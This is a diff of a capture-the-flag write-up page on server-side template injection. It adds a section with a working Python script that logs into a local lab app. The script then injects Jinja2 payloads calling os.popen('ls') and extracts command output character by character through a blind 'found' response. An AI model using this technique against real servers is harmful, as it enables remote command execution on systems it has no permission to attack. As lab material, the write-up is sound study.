

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_10_challs.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/challenges/SSTI_10_challs.md
+++ b/challenges/SSTI_10_challs.md
@@ -166,7 +166,42 @@ We find the flag!
 flag{7b5b91c60796488148ddf3b227735979}
 ```
 
-- ##
+- ## Mr O
+Payload was pssed into the heder which printed a response only if the desired output is found
+```
+from os import popen
+import string
+import requests
 
+SERVER_ADDR = "http://127.0.0.1:5000" # replace this with the actual IP of the docker
 
-- ##
+def get_cookie():
+    data = {
+        "username": "test",  # make sure to create a test:test user first
+        "password": "test"
+    }
+
+    req = requests.post(SERVER_ADDR + "/login", data=data)  # Send login request
+    cookiejar = req.history[0].cookies  # Get cookies from the response history
+    cookie = cookiejar.get_dict()['session']  # Extract the session cookie
+
+    return cookie  # Return the session cookie as a string
+
+cookie = {"session": get_cookie()}  # Get session cookie
+final = ""  # Initialize an empty string to store the discovered directory contents
+
+while True:
+    for x in string.printable:  # Iterate over all printable characters
+        x = final + x  # Append the current character to the discovered string
+        payload = {
+            'message': "{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}",
+            'username': 'admin'
+        }
+        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)  # Send the payload
+        if 'found' in r.text:  # Check if the response contains 'found'
+            final = x  # Update the final string with the current character
+            print(final)  # Print the currently discovered part of the directory
+            break  # Break the loop to move on to the next character
+
+```
+Explanation for each script line mentioned above and running it, we get the flag
````
